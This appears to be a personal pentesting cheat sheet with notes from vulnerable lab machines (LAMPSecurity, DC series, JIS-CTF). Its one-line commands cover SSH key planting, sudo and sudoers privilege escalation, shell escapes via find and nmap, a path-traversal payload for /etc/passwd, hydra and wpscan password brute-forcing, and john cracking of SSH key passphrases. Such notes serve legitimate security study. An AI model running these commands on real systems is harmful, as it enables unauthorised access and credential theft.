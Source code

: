 # interesting commands

```
echo LinEnum.sh | base64 |xclip -selection clipboard
grep -R password file_name
grep password . -B1 : get also the element before.
grep passwd /var/log/auth.log : permet de savoir la date de changement des mots de pass

```
if in the target system there is .ssh folder,I can generate my pub,priv key with **keygen -f name** and copy my public key and paste it inside .ssh (authorized_keys) ====>>> then I can connect with my private key: **ssh -i privkey user@targetip**.

```
scp -i privatekey user@targetip:/home/user.txt . : transfert user.txt to my local directory
```
## sudo abusing
```
vi visudo : to open the file listed with sudo -l
if in the file there is: user  ALL=(ALL,!root) ALL
I can run any commande with root priviledge like this: sudo -u#-1 /bin/bash  => BOOM,root access
ALso: user  ALL=(ALL,!abdo) ALL, I can have root access: sudo -u#-1 /bin/bash
bug fixed in 1.8.28  => get your current version $ sudo -V
```
#### LAMPSecurity-4
what I had learn from this machine is:
```
authenticity with private key with ssh : copy my public key to .ssh/authorized_key 
id => cat /etc/group, find / -group grp_name -type f 2>/dev/null
```
#### LAMPSecurity-5
what I had learn from this machine is:
```
smbclient --list //10.0.4.13/ -U "" : list the shared folders
smbclient //10.0.4.13/folder/ -U "" : get in 
grep -Ri password /home/*   : 
searchsploit linux kernel 2.6 : deux chiffre
ls /etc | grep release : know the distribution of the OS
https://10.0.4.13/?page=/../../../etc/passwd%00
hydra -L users -P /usr/share/wordlists/rockyou.txt 10.0.4.13 ssh -V
```
#### DC-1
what I had learn from this machine is:
```
find / -exec /bin/sh \;
```
#### DC-2
what I had learn from this machine is:
```
./wpscan --url http://dc-2/
./wpscan --url http://dc-2/ --enumerate : enumerate users
./wpscan --url http://dc-2/ --usernames file -w wordlist : brute force wp-login.php authenticity
ssh -p- dc-2 : check all ports
ssh -p 7744 tom@dc-2
how to bypass rbash shell : vi,echo os.system('/bin/bash') => https://sushant747.gitbooks.io/total-oscp-guide/escaping_restricted_shell.html
```
this one is soo interesting: https://sushant747.gitbooks.io/total-oscp-guide/vim.html

#### DC-3
what I had learn from this machine is:
```
locate -r .nse$ | grep joomla : look nmap script appropriate to my need
searchsploit linux kernel 4.4 : copier and paste sur google that may have repository in github.
```
#### DC-4
what I had learn from this machine is:
```
requests.post(url).status_code
brute force with burp suite with a wordlist <1000 words
echo "user ALL=(ALL) ALL" | sudo tee /etc/sudoers : tee priviledge escalation
```
#### JIS-CTF01
what I had learn from this machine is:
```
grep -rli 'technawi' --exclude-dir=/proc . 2>/dev/null
```
#### Basic-pentest-2
what I had learn from this machine is:
```
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.0.4.22 
http-get /manager/html -V : brute force tomcat authentofocation.
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -V : meme chose que la premiere
HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -t 1 -V :  send the request to burp suite

enum4linx 10.0.4.22: list all shared files and groups and user systems
ssh2john id_rsa file.txt :  to retrive the passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt file.txt : return the passphrase
ssh -i id_rsa kay@10.0.4.22
```
S00 interesting article in SMB enumeration: [samba enumeration tool](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)
#### Basic-pentest-2
what I had learn from this machine is:
```
wordpress authentication: I can brute force the username first then the password with hydra, 
the uniq thing that can be changed is error message contained in hydra syntax. : minimize the complexity
./wpscan -u http://10.0.4.23 --enumerate u/tt/..
install file manager in wordpress if you have admin access (it will contain the shell)
nmap --interactive => !sh : root access.
```




